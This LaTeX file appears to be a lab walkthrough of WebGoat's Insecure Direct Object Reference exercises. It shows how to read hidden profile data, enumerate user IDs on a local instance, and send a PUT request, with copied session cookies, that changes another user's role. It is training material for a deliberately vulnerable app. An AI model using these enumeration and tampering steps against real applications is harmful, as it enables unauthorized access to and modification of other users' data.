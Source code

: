 \documentclass[a4paper, 10pt, titlepage]{article}
\begin{document}
\subsection{WebGoat - Access Control Flaws}
The access control flaw covered is the Direct Object Reference.
Direct Object References are when an application uses client-provided input to access data and objects.
\begin{verbatim}
https://some.company.tld/dor?id=12345
\end{verbatim}
These are considered insecure when the reference is not properly handled and allows for authorization bypasses or disclose private data that could be used to perform operations or access data that the user should not be able to perform or access. \\
In exercise 3 analyze the page and in the network tab search for the profile file. It is easy to recover the infos hidden from the page:
\begin{lstlisting}
  "role" : 3,
  "color" : "yellow",
  "size" : "small",
  "name" : "Tom Cat",
  "userId" : "2342384"
\end{lstlisting}
In exercise 4 just access the page with:
\begin{verbatim}
WebGoat/IDOR/profile/2342384
\end{verbatim}
In exercise 5 try to change the id number, until you get to:
\begin{verbatim}
http://localhost:8881/WebGoat/IDOR/profile/2342388

"{role=3, color=brown, size=large, name=Buffalo Bill, userId=2342388}"
\end{verbatim}
Editing can be done with or without ZAP:
\begin{itemize}
\item \textbf{With ZAP}: modify the request, making it a PUT and adding the parameters in the body
\item \textbf{Without ZAP}: open postman and do a GET with the above URL. The session cookies from the current session ('\lstinline|document.cookie|' in the console of firefox) have to be added to localhost (with path '/WebGoat'), so that the logins are already executed. Then change the request to a PUT and in the \textbf{body} tab change to \textbf{raw} and switch from \textbf{text} to \textbf{JSON}, then write:
\begin{lstlisting}
{
	"role" : 1,
	"color" : "red",
	"size" : "large",
	"name" : "Buffalo Bill",
	"userId" : "2342388"
}
\end{lstlisting}
\end{itemize}
\end{document}
